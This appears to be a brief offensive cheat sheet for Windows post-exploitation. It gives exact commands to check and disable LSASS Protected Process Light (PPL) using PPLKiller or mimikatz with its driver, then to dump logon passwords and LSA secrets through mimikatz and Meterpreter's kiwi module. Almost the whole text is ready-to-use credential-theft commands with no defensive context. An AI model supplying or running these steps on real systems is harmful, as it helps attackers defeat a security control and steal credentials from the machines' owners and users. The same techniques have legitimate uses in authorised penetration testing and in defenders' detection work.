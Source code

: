 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL`

### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use meterpreter mimikatz module to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.

### Disable PPL using mimikatz
- Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.
- Dump logonpasswords: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`
- Dump secrets: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`
- Restore: `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
